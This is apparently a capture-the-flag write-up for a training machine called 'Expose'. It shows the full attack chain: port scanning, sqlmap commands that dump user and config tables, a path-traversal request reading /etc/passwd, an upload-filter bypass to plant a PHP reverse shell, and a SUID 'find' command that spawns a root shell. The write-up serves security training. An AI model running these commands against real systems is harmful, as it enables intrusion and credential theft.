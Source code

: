 To check my VPN connection was working I started with `ping -c4 10.10.116.11`. Everything seems to be working fine so let's start.
I ran `sudo nmap -sS -p- 10.10.116.111` to get an initial understanding of what ports were open on the target.

````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 15:51 EEST
Nmap scan report for 10.10.116.111
Host is up (0.075s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
````


Refined my command a bit
````
nmap -sVC -p21,22,53,1337,1883 10.10.116.111
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a5:d1:b7:3c:c5:03:aa:34:f1:a6:e3:5f:b7:cd:5b:46 (RSA)
|   256 14:da:96:fc:70:45:71:e7:39:c8:0f:c3:a9:7a:87:b2 (ECDSA)
|_  256 e2:90:b5:0b:ee:f1:a1:9a:77:e1:40:cc:65:ae:66:12 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/messages/sent: 13
|     $SYS/broker/heap/current: 50872
|     $SYS/broker/load/publish/sent/1min: 9.14
|     $SYS/broker/publish/bytes/sent: 55
|     $SYS/broker/load/messages/sent/5min: 2.55
|     $SYS/broker/load/sockets/5min: 0.74
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/sent/1min: 340.81
|     $SYS/broker/uptime: 682 seconds
|     $SYS/broker/load/bytes/received/15min: 4.57
|     $SYS/broker/clients/maximum: 1
|     $SYS/broker/load/publish/sent/5min: 1.96
|     $SYS/broker/load/bytes/sent/5min: 73.25
|     $SYS/broker/load/messages/received/15min: 0.20
|     $SYS/broker/load/connections/15min: 0.13
|     $SYS/broker/load/bytes/received/5min: 13.55
|     $SYS/broker/store/messages/bytes: 140
|     $SYS/broker/bytes/received: 69
|     $SYS/broker/subscriptions/count: 2
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/store/messages/count: 30
|     $SYS/broker/load/connections/5min: 0.39
|     $SYS/broker/publish/messages/sent: 10
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/1min: 63.04
|     $SYS/broker/load/messages/sent/15min: 0.86
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/sockets/1min: 2.51
|     $SYS/broker/load/messages/received/1min: 2.74
|     $SYS/broker/load/sockets/15min: 0.30
|     $SYS/broker/messages/stored: 30
|     $SYS/broker/retained messages/count: 34
|     $SYS/broker/heap/maximum: 51272
|     $SYS/broker/load/publish/sent/15min: 0.66
|     $SYS/broker/clients/total: 1
|     $SYS/broker/bytes/sent: 373
|     $SYS/broker/load/messages/received/5min: 0.59
|     $SYS/broker/load/bytes/sent/15min: 24.72
|     $SYS/broker/load/messages/sent/1min: 11.88
|_    $SYS/broker/messages/received: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
````

So there is FTP, SSH, DNS domain, waste p2p encrypted file sharing software, and MQTT which is a home automation protocol running.
FTP server allows anonymous login without a password so let's start there. There are no files but the welcome message is `220 Welcome to the Expose Web Challenge.`.
Went to `http://10.10.116.111:1337` with the browser and got a plank page with "EXPOSED" in it. Let's use ffuf to try to find some directories.
`ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.111:1337/FUZZ`
found "/admin, /admin_101, /javascript, /phpmyadmin & /server-status".

"/admin, /admin_101 & /phpmyadmin" all have login pages but "/admin" states "Is this the right admin portal?". Testing "/admin" login does not really do anything so let's look at the "/admin_101" next.
Used burp to proxy the request to a file for sqlmap to test for injection vulnerabilities. 
`sqlmap -l req --level=4 --risk=2` tells that backend server seems to be "MySQL 
`sqlmap -l req --dbms=MySQL --dbs` found "[*] expose,[*] information_schema,[*] mysql,[*] performance_schema,[*] phpmyadmin,[*] sys" databases.
`sqlmap -l req --dbms=MySQL -D expose,mysql,phpmyadmin --tables` dumps tables from databases "expose,mysql,phpmyadmin".
I started with expose database. There were "user, config" tables so lets find out columns for "user" table. 
`sqlmap -l req --dbms=MySQL -D expose -T user --columns` found "created,email,id,password" columns so let's dump them!
````
+-----------------+----+--------------------------------------+
| email           | id | password                             |
+-----------------+----+--------------------------------------+
| hacker@root.thm | 1  | VeryDifficultPassword!!#@#@!#!@#1231 |
+-----------------+----+--------------------------------------+
````
This grants login to "/admin_101" but there is nothing.

`sqlmap -l req --dbms=MySQL -D expose -T config --dump` gives more interesting output
````
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
````
I tried to crack hash with JohnTheRipper but it didn't work. I used crackstation.com to see if it would work, and it did. The password is "easytohack".
Tried to brute force 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
with z starting usernames as it hints that the username starts with "z" but it didn't work.
"/file1010111/index.php" lets me in with the password "easytohack". Looking at the source code there is a "Hint: Try file or view as GET parameters?". 
It hints towards LFI(local file inclusion). Trying 
````
http://10.10.116.111:1337/file1010111/index.php?file=../../../../../../../../../etc/passwd
````
spits out the whole passwd file!

In the file is user "zeamkish", trying that on 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
gives upload page. 
The source code tells me that there is a javascript function that only allows "jpg & png" files. Let's try to bypass it with burp.
I will create a rev.php.png file with php reverse shell inside and upload it with burp. I intercept the upload and remove ".png" extension from the reverse shell and it goes through!
The site says "File uploaded successfully! Maybe look in source code to see the path" so again I looked at the source code and found that the file went to "/upload_thm_1001".
I start a listener port the port in the reverse shell and execute our reverse shell by just clicking the file and we got our shell!

I looked at the folder I landed in but there was nothing. Checked home folders of "ubuntu" and "zeamkish". In zeamkish folder was a file named "ssh_creds.txt"!
Let's try them for ssh `ssh zeamkish@10.10.116.111` and we are in as zeamkish.

I uploaded "linpeas.sh" to help with enumeration. There is an uncommon binary with suid bit.
`-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find`

I had a look at gtfobins and found that you can spawn a privileged shell with: `./find . -exec /bin/sh -p \; -quit`
The flag was `/root/flag.txt`
